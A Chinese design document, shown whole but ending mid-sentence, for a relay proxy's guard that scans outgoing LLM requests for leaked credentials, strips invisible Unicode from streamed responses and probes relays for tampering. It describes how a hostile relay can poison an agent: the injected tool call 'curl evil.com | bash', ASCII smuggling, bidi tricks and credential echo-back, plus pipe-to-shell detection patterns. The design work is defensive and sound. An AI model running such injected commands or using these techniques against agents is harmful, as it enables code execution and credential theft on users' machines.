- **`vmr diagnose -guard` 五类探针全部保留**：显式触发、零流量风险，与在线拦截
  的存废无关。

**这次移除新增的一条安全阀**（净化路径自身的健壮性，不是危险命令检测的替代品）：
净化需要把响应按 SSE 事件边界重分帧，等待一个尚未出现的空行分隔符时必须持有
已读字节——一个刻意不发送空行分隔符的病态或恶意上游，本可以让这个持有窗口无限
增长，制造一次内存膨胀且响应迟迟不下发的效果，这正好与"保证入向通畅"的定位
相冲突。`internal/guard/inbound.go` 引入 `inboundSanitizeMaxHoldBytes`
（256 KiB——刻意比 `nonStreamGuardCap` 的 8 MiB 小得多，因为它界定的是单个事件的
等待窗口，不是整份响应体：一个真实事件通常只有几 KiB，用整份响应体的量级做单事件
安全阀，会让一个从未发出空行分隔符的病态上游把客户端晾在黑屏里长达 8 MiB 才放弃）：
一旦持有的未分帧字节超过这个内部常量，
净化直接放弃继续等待分隔符，把已持有的字节和后续所有字节原样转发（不再净化，
标记 `guard_sanitize_hold_exceeded`）——这不是配置项，是"净化绝不能变成阻塞"这
条设计原则本身要求的健壮性下限，和 §4.9 的 Fail-Open 原则同构。

**配置面变化**：`guard.inbound` 从 7 个字段收窄到 1 个（`sanitize_invisible_
runes`）；`guard:` 整体从 12 个旋钮降到 5 个。`tool_call_guard_mode`/`on_block`/
`on_opaque_response`/`max_tool_arg_bytes`/`on_oversize`/`protected_paths`/
`blocked_command_categories` 全部从 `config.GuardInbound` 结构体中移除（不是
保留字段拒绝新值——字段本身不存在了），一份仍声明这些键的旧配置会被 `KnownFields`
严格模式当作未知字段拒绝，报错信息是标准的"未知字段"提示，与更早移除的
`sanitize_level_b`/`max_prefilter_confirms`/`inject_system_note` 旋钮走的是
同一条已确立的先例，不需要 `mode: replace` 式的专门提示文案（那是枚举值层面的
移除，这是字段层面的移除，两者在 `config` 里本来就有不同的处理方式）。

**审计契约变化**：`core.ErrSecurity`、`audit.BlockInfo`、`GuardRecord.Block`、
`Attempt.SetSecurityBlocked`/`SetGuardBlock`/`GuardBlock` 全部**整体删除**，不
作为解码兼容位保留。同理，`mode: replace` 相关的历史字段（`ClientRedacted`/
`Restored`/`RestoreSuppressed`）也因从未随正式 Tag 发布而整体拔除，不留包袱。
入向在线拦截从 2026-09-15 落地到 2026-09-16 移除之间，没有任何
一次 `vmr start` 的真实运行产生过带 `Block` 字段或
`error_class:"security"` 的审计记录（本仓 `logs/` 与运营目录下最新的审计文件
都停在拦截代码落地之前），这套字段从未在任何一条真实记录里出现过，没有真正的
"历史记录"需要兼容。`GuardRecord.SanitizedRunes` 不受影响，继续保留并在 S4 补上
离线消费方——净化能力本身没有移除。

**受影响的既有登记**：K-G6（未知工具只做凭据检查不跑命令模式）、K-G8（纯文本
`content` 绝不拦截）现在是离线检测层单方面的范围声明，不再有对应的在线执行路径；
K-G9（`ErrSecurity` 不罚健康）随 `ErrSecurity` 一起失效，编号不复用；K-G13（离线/
在线装配差分测试）随在线装配消失而失效，见 ADR-14。新登记 K-G15（入向在线拦截
已整体移除，防重提）取代它们在"防止被重新提出"这个功能上的位置。

---

## 4. 技术规范

### 4.1 系统拓扑



**在线挂载点只有两个，且都是组合而非侵入**：`server` 一次同步函数调用，`router`
一次 `io.Reader` 包装。**离线侧没有挂载点**——分析半区直接调用检测层的纯函数，
`internal/report` import `internal/guard`（guard 不反向依赖任何消费者）。

### 4.2 `internal/guard` 模块契约

检测层（规则、引擎、指纹、Rune 分类、Tool 实参判定）是纯函数，离线与在线共用；
干预层现在只剩两个动作——出向拒绝、入向净化，都不合成协议帧，都不终止连接。以下
与 `internal/guard` 现行签名一致。

```go
// internal/guard —— 依赖白名单 {vmr/internal/jsonscan}，其余仅 stdlib。
// 协议以裸 string 传入（取值为 core.Protocol*），错误类别由调用方映射。

// ---- 规则层 ----

type Tier uint8
const (Tier1 Tier = 1 + iota; Tier2)

// Rule 是一条凭据识别规则。Tier1 必须五锚齐备（ADR-5）。
type Rule struct {
    Name       string          // 稳定标识，进审计日志，如 "anthropic-api-key"
    Tier       Tier
    Literal    []byte          // 强制字面前缀，供 AC 预筛；Tier1 必填且 len>=4
    Re         *regexp.Regexp  // 含左边界断言、以 Literal 起头的锚定完整模式
    MinEntropy float64         // 主体 Shannon 熵下界；Tier1 默认 3.5
}

// Engine 是【不可变只读单例】：规则表 + AC 预筛自动机 + 规则集版本，构造后
// 不再写入，可被任意多个 goroutine 并发使用。全部可变扫描态移进 Scratch，
// 由调用方按 goroutine 持有 —— 离线是 report 的每个 ingest worker 一个，
// 在线是每个请求 goroutine 一个（ADR-13）。
type Engine struct{ /* rules + automaton + ver，全部只读 */ }

// Scratch 是一次扫描的可变工作区（遍历栈、结果缓冲）。复用它即可让无命中
// 路径零分配；跨 goroutine 共享它是使用错误。
type Scratch struct{ /* stack, dst */ }

// NewEngine 在构造期校验五锚齐备与规则不变量，失败即返回 error（绝不延迟到运行期）。
func NewEngine(rules []Rule, ver int) (*Engine, error)

// Scan 遍历 raw（一个 JSON 文档）中的所有字符串值，返回全部命中。
// 跳过二进制样值（len>8KiB && >=98% base64 字母表 && 无空白）。
// 无命中路径不分配。
func (e *Engine) Scan(raw []byte, sc *Scratch) []Finding

// ScanText 是同一套规则在【已解出的纯文本】上的入口 —— 响应侧装配出来的
// 助手文本与工具实参不再是 JSON 文档，走这条。
func (e *Engine) ScanText(s []byte, sc *Scratch) []Finding

type Finding struct {
    Rule       string
    Tier       Tier
    Start, End int // raw 中的字节区间（位于某个 JSON 字符串值内部）
}

// ---- Rune 分类（检测层；入向净化器在它之上加"删除"动作）----

// ClassifyRunes 统计一段文本里 A/B/C 三档不可见码位（§4.4.2）。
// 纯 ASCII 走快路径，零分配。离线只要这份计数；在线净化复用同一份分档判定。
func ClassifyRunes(s []byte, dst map[string]int) map[string]int

// ---- Tool 实参判定（检测层；仅离线消费，ADR-15）----

// ToolVerdict 判定一次【已装配完整】的工具调用。装配由调用方完成 ——
// 离线用 chatmsg.ReassembleSSE，guard 自己不解析 SSE，也不 import chatmsg。
//   name: 工具名，用于类别判定
//   args: JSON 解转义之后的完整实参
//   known: 出向扫描已确认的明文凭据值集合（本次请求内的 egress cache），
//          用于凭据回显检测——实参中出现请求自身携带的凭据即攻击信号
func InspectToolCall(name string, args []byte, known [][]byte) ToolVerdict

type ToolVerdict struct {
    Category   string // command | file_write | network | unknown
    Hit        string // 命中的高危类别，如 "pipe_to_shell"；"" = clean
    CWE        string
    PathHit    string // 命中的受保护路径 / 工作区逃逸目标
    Echoed     bool   // 实参中出现了请求自身携带的凭据 —— bool 信号，绝不复制凭据本身
    Excerpt    string // ≤256 字节，命令/路径匹配子串本身（非凭据，见下）
}

// ---- 指纹层（检测侧与审计侧共用）----

// Fingerprint 是单条凭据的可关联指纹：确定性的 SHA256(rule.Name || 0x00 || secret)
// [:16] 的十六进制，不加盐（ADR-12/K-G19：曾是 HMAC，加盐从未有过真实消费方）。
// 派生输入绑定 rule.Name，避免跨格式碰撞。
func Fingerprint(ruleName string, secret []byte) string

// ---- 出向入口（server 只调这一个；接线 ≤5 行）----

type OutboundResult struct {
    Body      []byte // 入参原样返回——Outbound 永不改写（ADR-6）
    Hits      []Hit  // Tier1 与 Tier2 都记，按规则名聚合
    BlockedBy string // Tier1 首个命中规则名；由调用方在 mode=block 下执行拒绝
}

func (g *Guard) Outbound(body []byte, mode OutMode) OutboundResult

// ---- 入向读链（router 包一层；ADR-15：仅 Unicode 隐写净化）----

// Inbound 包装 respnorm 的输出，按 SSE 事件边界重分帧并对每个事件的 JSON
// 字符串值做隐写字符净化。从不阻断、从不合成协议帧——最坏情况下 Fail-Open
// 退回原样透传。
func (g *Guard) Inbound(src io.Reader, opts InboundOpts) InboundStream

type InboundOpts struct {
    // Opaque 为 true 时表示上游响应真正处于压缩状态（Content-Encoding 存在
    // 且未被 Go Transport 透明解压），净化无法解析其中的 SSE 结构——直接
    // 跳过净化，返回纯透传 reader（没什么可剥的，也没什么可拦的）。
    Opaque bool
    // SanitizeInvisibleRunes 镜像 config.GuardInbound.SanitizeRunes()（调用
    // 方已解析完 *bool 与默认值的关系）。false（或 Opaque 为 true）时 Read
    // 是纯字节透传——不重分帧、不分配。
    SanitizeInvisibleRunes bool
}

type InboundStream interface {
    io.Reader
    // Applied 列出这次流处理产生的 Attempt.Norm 标记（如
    // "guard_runes_sanitized"）—— 调用方与 respnorm.Applied() 合并。
    Applied() []string
    // RuneCounts 返回按类别统计的已净化不可见码位数量，供
    // Record.Guard.SanitizedRunes 使用。
    RuneCounts() map[string]int
}
```

**关键实现约束**：

- `Engine.Scan` 与 Rune 分类器在**无命中路径上不得分配**；以
  `testing.AllocsPerRun == 0` 作为单测断言。
- 出向**永不改写请求体**（ADR-6）：`Outbound` 只产出审计事实与 `BlockedBy` 信号，
  拒绝动作由 server 侧挂载点执行。
- 入向净化**从不阻断**（ADR-15）：`Inbound` 只产出净化后的字节流，没有任何
  "拒绝"或"熔断"的返回路径。

### 4.3 出向数据流

```
                    ┌───────────────────────────────┐
  客户端请求体 ────▶ │ Engine.Scan（AC 预筛 → 锚定）  │
                    └──────────────┬────────────────┘
                                   │ Findings
              ┌────────────────────┼────────────────────┐
              ▼                    ▼
        mode=audit_only        mode=block
              │                    │
      仅记 Hits，不改写    Tier1 命中 → 400（security_violation）
              │              Tier2 只记录
              └────────────────────┘
                     │（两种模式下请求体都原样转发）
                     ▼
        rec.Client.Request.Body（原始明文，保持字节保真）
        Record.Guard{OutMode, Hits, Ver}
                     ▼
        载荷 ──▶ downscaleImages → RequestFacts → Sticky 指纹
                     ▼
        Attempt.Request.Body（记录实际上行字节） ──▶ 上游不可信中转
```

**`trusted_providers` 的语义**：出向豁免只能在"该虚拟模型的**全部候选端点**都在
信任列表内"时成立——入口时还不知道会路由到哪个 provider，Failover 更会换
provider，"按实际 provider 豁免"在架构上不可实现。该判定在 **Snapshot 构建期**
按虚拟模型预计算（`ModelRoute.GuardAllTrusted`），`server` 直接查表，零请求期
开销。任何一个候选不可信 → 照常扫描。入向净化与 fraud 审计按**实际命中的
attempt** 判定信任，无此约束。

### 4.4 入向数据流（ADR-15：仅 Unicode 隐写净化）

#### 4.4.1 事件级流水线

```
上游字节 ──▶ [SSE 重分帧] ──▶ [Unicode 隐写净化] ──▶ 下游
              (自持 pending)     (转义感知，从不阻断)
```

普通文本事件路径：重分帧 → 净化（绝大多数内容为纯 ASCII，走快路径）→ 直接输出。
**不 hold（超过安全阀即放弃分帧原样转发，见下），不因净化而拒绝或延迟任何一个
事件。**

**持有窗口安全阀**：重分帧需要在找到下一个 SSE 空行分隔符前持有已读字节。一个
不发送空行分隔符的病态/恶意上游本可以让这个持有窗口无限增长（内存膨胀 + 响应
迟迟不下发），这与"保证入向通畅"直接冲突。持有的未分帧字节一旦超过内部常量
`inboundSanitizeMaxHoldBytes`（256 KiB——单个 SSE 事件的等待窗口，刻意远小于
`nonStreamGuardCap` 那 8 MiB 的整份响应体上限），净化放弃
继续等待分隔符，把已持有及后续全部字节原样转发，标记
`guard_sanitize_hold_exceeded`——不是配置项，是"净化绝不能变成阻塞"这条设计
原则要求的健壮性下限。

#### 4.4.2 Rune 净化分级

| 档 | 码位 | 默认动作 | 理由 |
|---|---|---|---|
| **A 必删** | `U+E0000`–`U+E007F`（Tags）；C0 控制符（除 `\t \n \r`）；`U+007F`；`U+FFF9`–`U+FFFB` | 删除 | 在 API 文本中无任何合法用途，是 ASCII Smuggling 的主载体 |
| **B 恒删** | `U+200B`（ZWSP）；`U+00AD`（软连字符）；`U+FEFF`（非流首位置）；**`U+202A`–`U+202E`（bidi embedding/override）**；**`U+2066`–`U+2069`（bidi isolate）**；`U+2028`/`U+2029` | 删除 | bidi 段是 **Trojan Source（CVE-2021-42574）的真实载体**。B 档字符是纯视觉危害、语料两个月仅 9 次，不存在需要旋钮裁决的误伤面（A 恒删、C 恒不删同理） |
| **C 仅标记** | `U+200C`（ZWNJ）；`U+200D`（ZWJ）；`U+200E`/`U+200F`（LRM/RLM）；`U+FE00`–`U+FE0F`、`U+E0100`–`U+E01EF`（变体选择符） | **不删**，计数并记审计 | ZWNJ/ZWJ 是波斯语、印地语与**所有 ZWJ emoji 序列**的必需字符（无条件删除会把 👨‍👩‍👧 碎成三个独立 emoji）；bidi mark 是阿拉伯语/希伯来语排版必需。删除它们是损坏正常内容，不是净化（K-G7） |

**语料实证**（§2.3 结论 5）：两个月全量良性响应里 A 档 0 次、B 档 9 次且无一个
Bidi 码位、C 档 2,947 次其中 2,945 次是 emoji 的 `U+FE0F`。这组数字同时支撑两个
方向的处置——A/B 档恒删的代价接近于零，C 档无差别删除则会当场破坏近三千处正常
输出。

**转义感知**：净化器同时处理两种编码形态——原始 UTF-8 字节序列，与 JSON 字符串
内的 `\uXXXX` / 代理对转义。攻击者可以把零宽字符写成 6 个 ASCII 字符
（`​`），rune 扫描器一个都看不到，客户端 `json.loads` 后它们才变回不可见
字符。命中 A/B 档删除整个转义序列（6 或 12 字节），C 档计数并保留。快路径：整段
不含 `\u` 且全为 ASCII 可打印 → 零处理直接放行。

**SSE 事件字段保真**：净化只改写事件的 `data:` payload，`event:`/`id:`/
`retry:` 三个字段原样保留、原样写回——`id:` 关系到客户端断线重连时的
`Last-Event-ID`，`retry:` 关系到重连退避间隔，丢弃它们是一个真实的字节保真
缺陷，不是"无关紧要的字段"。

### 4.5 配置 Schema

```yaml
# guard: Agent Guard 双向护栏。不声明 guard: 时完全关闭，100% 原生字节保真透传。
guard:
  # 完全信任的 provider（企业内网 vLLM、官方直连）。
  # 出向：仅当某虚拟模型的【全部候选端点】都在此列表内才豁免（§4.3）。
  # 入向 / fraud 审计：按实际命中的 attempt 判定。
  trusted_providers: [internal-vllm, anthropic-direct]

  outbound:
    # off | audit_only | block
    #   面对【会篡改响应】的不可信中转站，block 是唯一正确的在线干预（ADR-6）。
    #   再声明 replace 是加载错误。
    mode: audit_only

  inbound:
    # Unicode 隐写清洗。A/B 档恒删，C 档仅标记（见 §4.4.2）。这是入向唯一的
    # 在线干预：从不阻断、从不改变状态码，失败即 Fail-Open 原样透传（ADR-15）。
    sanitize_invisible_runes: true
```

**默认值取向**：`outbound.mode` 默认 `audit_only`。放量路径 `off → audit_only →
block`——"开箱即激进防护"换来的安全感不值得拿生产事故去买。`inbound.
sanitize_invisible_runes` 默认 `true`：净化从不阻断，没有"更强"与"更弱"之分，
默认开启没有 `outbound.mode` 那样的放量顾虑。

**严格校验**（`KnownFields: true` 之外的语义校验）：

| 校验 | 失败时 |
|---|---|
| `mode: replace`（已移除的取值） | **加载错误**，附"改用 block"提示 |
| `trusted_providers` 中的名字不存在于 `providers[]` | **加载错误** |
| 任何枚举字段取值非法 | **加载错误** |

`mode: replace` 曾经的五个配套旋钮（`marker`/`session_ttl`/`max_entries`/
`restore_scope`/`max_restores_per_response`）已从 `config.GuardOutbound` 结构体
中整体移除，不是保留字段拒绝新值——配置里再出现任一个，走的是下面这条
`KnownFields` 通用未知字段报错，不附带"改用 block"提示；只有 `mode: replace`
这个枚举取值本身命中上表第一行的定制报错。

`guard.inbound` 下再出现 `tool_call_guard_mode`/`on_block`/
`on_opaque_response`/`max_tool_arg_bytes`/`on_oversize`/`protected_paths`/
`blocked_command_categories` 任一键——这些字段已从 `config.GuardInbound` 结构体
中整体移除（ADR-15），`KnownFields` 严格模式按未知字段报错，与更早移除的
`sanitize_level_b`/`max_prefilter_confirms`/`inject_system_note` 走同一条
已确立的先例，不需要专门的提示文案。

### 4.6 审计契约

`internal/audit/guard.go` 与下方类型逐字段一致。`FraudInfo`/`GuardRecord.Fraud`
未落地（YAGNI：全仓零消费方，M2.6 立项时再合入，见 `docs/ROADMAP.md` R6）。离线
补扫得出的结论不回写审计日志（分析半区只读，两半区契约），它们落在
`macro/guard.json` 里（§4.7）。`Client.Request.Body` 始终保持客户端原始明文；
当前模式下 `Attempt.Request.Body` 与之恒等（ADR-12；`mode: replace` 从未随任何
正式 Tag 发版，没有需要差分的历史伪名载荷）。

```go
// internal/audit

// Record 顶层字段（与 Facts 平级；nil = guard 未启用）
Guard *GuardRecord `json:"guard,omitempty"`

// GuardRecord 是一次请求的安全取证元数据。
// 不含任何敏感明文：命中只记规则名与计数。
type GuardRecord struct {
    Ver     int    `json:"ver"`      // 规则集版本
    OutMode string `json:"out_mode,omitempty"`

    Hits []Hit `json:"hits,omitempty"`

    // SanitizedRunes 统计入向净化按类别剥除的不可见码位数量
    // ("tags"|"bidi"|"zwsp"|…) —— 唯一的入向在线干预留下的痕迹（ADR-15）。
    SanitizedRunes map[string]int `json:"sanitized_runes,omitempty"`
}

type Hit struct {
    Rule  string `json:"rule"`
    Tier  int    `json:"tier"`
    Count int    `json:"count"`          // 本请求内出现次数 —— 上下文放大系数的原始数据
    // 单条凭据的可关联指纹：确定性的 SHA256(rule||secret)[:16]，不加盐（ADR-12/K-G19）。
    FP string `json:"fp,omitempty"`
}
```

**`Block`/`BlockInfo`/`core.ErrSecurity` 不存在**（ADR-15）：入向在线拦截与
`mode: replace` 从落地到移除之间，没有任何一次发版或正式运行产生过带这些字段的记录，
因此均未保留解码兼容位。

**`Attempt.Norm` 词条**：`guard_runes_sanitized`、`guard_sanitize_hold_exceeded`、
`guard_outbound_error`、`guard_inbound_error`（历史记录可能出现旧的同名 `guard_error`）。
历史记录还可能出现 `guard_outbound_redacted`、`guard_restored`、
`guard_restore_suppressed`（replace 移除前的标记，当前代码不再产生）、以及
`guard_opaque_blocked`/`guard_tool_blocked:<category>`/`guard_oversize_blocked`/
`guard_prefilter_saturated`（入向在线拦截移除前的标记，当前代码不再产生，仅供
历史记录解读参考）。`router` 负责把 guard 的 applied 列表与 `respnorm.Applied()`
合并后交给 `att.SetNorm`。

**同步义务（CLAUDE.md 硬约束）**：`internal/report` 与 `audit.Record` 编译期
耦合，改动必须在同一 change 内更新 `report` 及其测试；`i18n/report_guard.go`
与 `internal/report/viewmodel_guard.go` 必须成对出现（`archtest` 强制）。

### 4.7 分析半区呈现

`macro/guard.json` 一个 section 分三块，共享同一次 ingest 扫描。数据消费范式见
ADR-12（权威盖章 + 离线兜底补扫）。

**(1) 出向凭据外泄** ✅：

- 凭据命中排行：规则 × 唯一 FP 数 × 总次数 × **单请求最大重复度**——最后一项是
  "上下文放大系数"的正确度量（§2.3 结论 3）；
- Tier 1 / Tier 2 分列，Tier 2 明确标注"仅供人工复核，含已知误报模式"。

**(2) 入向取证** ✅。数据源是 `Client.Response.Body`（§2.2），**全部离线产出**
（ADR-15 之后在线不再判定任何入向危险信号，只做净化）：

- Unicode 三档计数与码位分布——A/B 档非零就是需要人看一眼的事件，C 档只作背景
  量；这一块现在还包含在线净化按类别剥除的计数（`Record.Guard.SanitizedRunes`），
  与离线扫描出的"最终留在响应里的"计数分开标注——两者是互补事实：前者是
  "客户端本该看到、但被净化提前剥除"，后者是"客户端确实看到了"，合并会混淆
  K-G14 的核心区分；
- 工具调用清单与高危命令/受保护路径命中，附 ≤256 字节摘录——摘录是高危命令库/
  受保护路径正则匹配到的命令或路径语法子串本身，不是凭据（`Echoed` 已经用 bool
  信号单独承载凭据回显，摘录里不会出现凭据的复制品）。摘录**不**做启发式脱敏——
  与 §1.2(b)/ADR-5 同一立场：「看起来像 key 就打码」本身就是追不全的黑名单。已知
  窄口子例外：`pipe_to_shell` 一类模式会把整条 `curl|wget ... | sh` 命令行原样
  收进匹配子串，若 URL 查询串里恰好带着令牌（如预签名链接），那段文本会跟着进
  摘录——这是命中命令语法的副作用，不是摘录机制去主动摘录凭据，登记
  `docs/KNOWN_ISSUES.md`；工具调用参数的隐写字符扫描与助手文本使用同一遍
  `ClassifyRunes`，不遗漏；
- **凭据回显交叉比对**：拿本请求出向命中的凭据明文去查响应，按"落在纯文本"与
  "落在命令类工具实参"分开计数——后者基线非零即告警（§2.3 结论 6）。

**(3) Provider 暴露面归因** ✅。把 (1)(2) 的结论按**实际命中的那个 provider**
（`rec2.endpoint` 经 `core.SplitEndpointLabel`）归并，输出"哪些凭据流向了哪些
上游、各多少唯一值、其中多少是第三方中转"。这是三块里唯一能直接转成动作的一块。
归因用实际 attempt 而非虚拟模型的候选集：Failover 会换 provider，只有 attempt
知道字节真的发给了谁。

**微观（Journey）** ❌ 未实现（M2.5）：步骤级因果标注（如 `Step 4 · tool cat .env
→ 检出 1 条 anthropic-api-key，实发往 <provider>`）。补扫落地后端到端可验证，是
纯粹的范围/时间取舍。

**供应链 / fraud pass** ❌ 未实现（M2.6，`docs/ROADMAP.md` R6）：属 §1.2(c) 的
"新想法"，默认不进默认产出，可独立砍掉。

**呈现的一条硬纪律**（K-G14）：离线报表描述的是**已经发生的事**。入向那块尤其
要写清楚——报告里出现一条 `pipe_to_shell`，意思是"客户端当时已经收到了它"，
**从未被拦截过，也不会被拦截**（ADR-15 之后入向在线不再有任何拦截能力）。它的
价值在于让用户知道并据此换掉中转站、换掉泄露的密钥，不在于当时挡住了什么。

### 4.8 性能

基准以实测为准，不写没有 benchmark 支撑的断言。首次实测值：
`OutboundPrefilter`（1 MB 无命中 JSON）约 490 MB/s；`OutboundScan`（1 MB 真实
语料含 3 处命中）约 2.1 ms / 15 allocs；`RuneSanitize`（纯 ASCII）约 348 MB/s。
离线全量吞吐（`vmr analyze` 对全量 `logs/` 的墙钟增量，相对不含 guard 扫描的
基线）实测 +22.4%，在 ≤30% 门槛内。三处表述纪律：出向的一次性扫描计入端到端
时延而非 TTFT；"零分配"只在无命中路径成立；单 chunk 耗时依赖 chunk 大小，按
吞吐量表述才有意义。入向净化的端到端时延数字待真实流量积累后补充——净化本身
是逐事件的轻量重写，预期量级与 `RuneSanitize` 一致。

### 4.9 失败模式矩阵

| 场景 | 行为 | 依据 |
|---|---|---|
| **离线补扫时某条记录扫描失败 / panic** | **跳过该条，计入 section 的"扫描失败数"，analyze 照常完成** | 一条坏记录不能毁掉整份报告，但失败数必须可见，不能静默吞掉 |
| 出向规则引擎 panic / 内部错误（在线） | **Fail-Open**，记 `guard_outbound_error`，请求照常转发 | 护栏不得成为可用性单点 |
| 入向净化 panic / 内部错误（在线） | **Fail-Open**，记 `guard_inbound_error`，响应照常原样转发 | 同上；ADR-2 收窄后出向/入向的容错边界完全对称——净化失败最坏是"这次没剥掉隐写字符"，不是安全事故 |
| 上游带 `Content-Encoding`（真正 opaque，入向） | 净化直接跳过，原样透传，不标记为异常 | 压缩字节无法解析 SSE 结构，没什么可剥的 |
| 入向重分帧持有字节超过 `inboundSanitizeMaxHoldBytes`（256 KiB） | 放弃分帧，原样透传剩余字节，记 `guard_sanitize_hold_exceeded` | 防止病态/恶意上游用"永不发送空行"制造无界内存持有（ADR-15） |
| 安全阻断（出向 `block`） | 请求方向：400 `security_violation`，在路由/Failover 发生之前就已返回，不消耗任何端点健康分 | ADR-6；出向拒绝发生在 Dispatch 之前，与端点选择无关 |

**总原则：离线 Fail-Soft，在线（出向 + 入向）全部 Fail-Open。** 出向失败退回
"这次没扫描到"，入向失败退回"这次没净化"——两者都不是安全事故，只是护栏这次没
起作用，与移除前"入向 Fail-Closed"的不对称处理不同：那时候入向失败的代价是
"可能放进一条 RCE"，现在入向根本不判定 RCE，Fail-Open 是唯一自洽的选择
（ADR-2）。

### 4.10 `vmr diagnose` 主动探针

在既有 `internal/probe` 基础上经 `internal/probe/guard.go` 与
`internal/diagnose/guard.go` 支持 `vmr diagnose -guard`：

| 探针 | 机制 | 判定 |
|---|---|---|
| **工具调用篡改检测 (`tool_call_tamper`)** | 构造安全 `bash` 工具调用请求，校验上游返回的函数名与实参 | 被篡改（如注入 `curl evil.com \| bash`）→ 判 Fail |
| **长上下文静默截断 (`context_truncation`)** | 填充长文本并在深处埋设一次性随机 Nonce，验证模型是否提取返回 | Nonce 丢失 → 判 Fail |
| **Thinking 签名探针 (`thinking_signature`)** | 对声明支持推理的模型（`r1`/`o1`/`o3`/`claude-3-7`/`qwq` 等）发起推理请求 | 剥离思维链或偷换模型 → 判 Fail；非推理模型自动豁免 |
| **Token Usage 虚报检测 (`usage_inflation`)** | 发送一段定长校准长文本（足够大以摊薄真实 provider 的固定聊天模板开销），结合 `tokenutil.EstimateText` 估算真实 prompt token 数 | 上游返回虚高超常（比率 > 3.5x）→ 判 Fail |
| **隐写注入检测 (`invisible_runes`)** | 检测回程响应中是否夹带未埋入的 A/B 档隐写与控制码位（Tags、C0 控制符、ZWSP、软连字符、BOM、Bidi 嵌入/覆盖/隔离符、行分隔符） | 出现 → 判 Fail |

**硬约束**：探针**只在运维显式触发时运行**（`vmr diagnose -guard`），绝不夹带
进用户业务流量，与在线拦截的存废无关——探针从一开始就是独立于路由热路径的主动
诊断工具，不受 ADR-15 影响。对本地 mock relay 的验证结论是 100% 检出 / 0 误报
——**该硬指标仅对 mock relay 成立**，真实中转的检测边界见 KNOWN_ISSUES。

**范围登记**：五个探针不是同一个威胁模型。`tool_call_tamper`/`invisible_runes`
是本方案凭据/隐写核心范围的延伸（分别对应 AC-1 载荷篡改与入向隐写净化）；
`context_truncation`/`thinking_signature`/`usage_inflation` 是"中转站是否诚实
转发"的保真度/计费诚实度检测，与凭据外泄、隐写投毒都无关，只是共享同一套
opt-in、真实调用、消耗真实 Token 的探针机制。两类合入同一个 `-guard` flag 是
K-G23 已拍板的决定（不按威胁模型拆成独立子命令），不是范围混淆——见
`docs/KNOWN_ISSUES.md` K-G23。

---

## 5. 交付状态

M0–M3 与收窄后的 M4 全部完成，下表是当前状态；交付与复核过程中的历史细节
（含两轮独立复核逐项处置）已折叠进 `KNOWN_ISSUES` 与本文各 ADR，不再以独立
执行报告的形式保留——git 历史本身就是过程记录。

| 里程碑 | 内容 | 状态 |
|---|---|---|
| M0 | 双向语料标定：`tools/guard_corpus_scan`（可重跑工具），Tier 1 规则集 FP=0，入向三档与回显基线 | ✅（M0.4 tokenutil 误差标定随 M2.6 触发） |
| M1 | 双向检测核心：`Engine.Scan`/`ScanText`、`ClassifyRunes`、`InspectToolCall`、`Fingerprint`；AC 预筛 + `Engine`/`Scratch` 并发模型 | ✅ |
| M2 | 离线双向取证审计：`audit.GuardRecord` 契约、`macro/guard.json` 三块（出向 / 入向 / Provider 归因） | ✅（M2.5 Journey 标注、M2.6 供应链/fraud 未做，`docs/ROADMAP.md` R6） |
| M3 | 出向干预：`config.Guard` schema、`server` 挂载、Snapshot 期信任预计算、`mode: block` | ✅（M3.3/M3.7 的 replace 机器随 ADR-6 整体移除；Salt 三级解析随 K-G19 整体移除） |
| M4 | 入向干预：SSE 重分帧、Unicode 隐写净化 | ✅（收窄后的现行状态——Tool 双级闸门/三协议熔断帧/非流式阻断/opaque 拦截整体移除，ADR-15） |
| M5 | 主动探针 `vmr diagnose -guard`（5 类探针矩阵） | ✅ |

**持续有效的验收判据**（回归时仍以此为准）：

- **关闭即恒等**：`guard:` 未声明时经真实 HTTP 全链路验证上行字节与客户端发送
  逐字节相同，`Record.Guard` 为 `nil`；
- **向后兼容**：既有 golden 在"无任何命中"的语料上字节不变；`Guard` 全字段
  `omitempty`；
- **良性语料零扰动**：C 档变体选择符一个不少，A/B 档删除，其余字节零变化，
  `event:`/`id:`/`retry:` 字段原样保留；
- **对抗测试套件 RT-01–RT-16**：其中判定逻辑可离线验证的十条在检测层单测覆盖；
  流式专属六条曾在 M4 集成测试覆盖，随入向在线拦截移除，覆盖范围收窄为净化路径
  自身的字节保真与安全阀行为（K-G13 随之失效，见 ADR-14）。

---

## 6. 残余风险与登记事项

### 6.1 防重提登记

本文标号为 K-Gx 的决策分两类：多数（K-G1/K-G3/K-G4/K-G5/K-G6/K-G7/K-G8/K-G9/K-G14/K-G15，
覆盖 replace 移除、出向永不改写、Tier 2 永不在线阻断、指纹版本不可比、未知工具不跑命令
模式、纯文本不拦截、`ErrSecurity` 失效、离线报表只陈述事实、入向在线拦截整体移除等）
已实际落入 `docs/KNOWN_ISSUES`，以该文件为准，本文不再重复。少数（K-G2/K-G10/K-G11/
K-G12/K-G13）只是本文 ADR 正文内部的轻量交叉引用标号（编号不复用惯例、检测/干预分层
原则、装配差分测试要求及其失效），不对应独立的 KNOWN_ISSUES 条目——它们的内容已经
在对应 ADR（ADR-8 的编号不复用惯例、ADR-14、ADR-11/12、ADR-14）正文里说清楚，不需要
再重复登记一份。

### 6.2 明示的残余风险（不隐瞒，不宣称已解决）

1. **危险命令/工具调用/凭据回显在线完全不设防**。这是 ADR-15 的直接代价，不是
   意外：面对一个会往回投毒（塞入 `curl evil.com | bash`）的中转站，VMR 不再
   拦截——真正的防线是客户端自己的审批门与沙箱（§1.1）。离线取证会在
   `vmr analyze` 里看到这件事发生过，但看到的时候已经晚了。用户需要清楚这个
   代价：VMR 只帮忙"多拦一道凭据外泄"和"事后知道",不帮忙"实时挡住危险命令"。
2. **凭据的两步链外带**（历史编号 RT-09）：响应可诱导客户端把已泄露的凭据写盘
   再外带。出向 `block` 挡的是"凭据发出"，挡不了"已在客户端环境里的凭据被工具
   再外带"——真正的处置是轮换已泄露的密钥。
3. **离线审计是取证，不是防护**。它报的每一条都已经发生过：凭据已经发出去了，
   危险的 tool call 客户端已经收到了。它的价值在于让用户**知道**并据此换掉中转
   站、换掉泄露的密钥，不在于当时挡住了什么——入向在线拦截移除后，这条对所有
   入向信号都成立，没有例外。
4. **离线审计的两个盲区**，都源自它的数据源是审计日志：**(a)** 审计关闭时什么
   都看不到；**(b)** 超过 `recorderBodyCap`（16 MiB）的响应体在日志里被截断，
   恶意载荷若落在截断之后就扫不到。两者都不修：前者是用户的显式选择，后者的
   正确解法是提高审计上限，不是重新引入在线拦截。
5. **`looksLikeBinaryBlob` 的启发式判定可被对抗性构造绕过**（`internal/guard`
